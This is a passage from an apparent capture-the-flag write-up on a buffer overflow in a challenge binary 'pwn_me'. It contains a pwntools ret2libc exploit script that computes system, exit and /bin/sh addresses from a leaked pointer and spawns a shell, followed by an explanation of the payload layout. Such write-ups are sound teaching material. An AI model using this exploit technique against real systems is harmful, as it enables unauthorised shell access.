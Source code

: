 After we have all these components, we can now get the offsets:

![](assets/img/bh_23.png)

We can now use this information to create our exploit, and this is what I came up with:

```python
from pwn import *
import struct

padding = b"A" * 28

proc = ssh(user="guardian", host="<addr>", password="<pass>").process("./pwn_me")

proc.recvline() # Binexgod said he want to make this easy.
system = proc.recvline() # System is at <addr>

print(system)

system = system[14:-1] # get only the address part
system_int = int(system, 16) # convert to int

system = struct.pack("I", system_int) # the system address
sh_addr = struct.pack("I", system_int + 0x11e7bb) # the /bin/sh address relative to system address
exit_addr = struct.pack("I", system_int - 0xc190) # the exit function address relative to system address

proc.sendline(padding + b"STAK" + system + exit_addr + sh_addr) # Send the payload
proc.interactive() # Gets us a shell
```

The payload is the following structure `<system>,<exit>,<arg1>`, because the first argument in `system` lies in ebp+8, which means that we can even replace `exit` with 4 dummy bytes if we want to (depends if one cares if he gets a segfault after exiting the shell, for example is on a machine that monitors return codes of processes).

If I execute the exploit, I get the following output:

![](assets/img/bh_25.png)
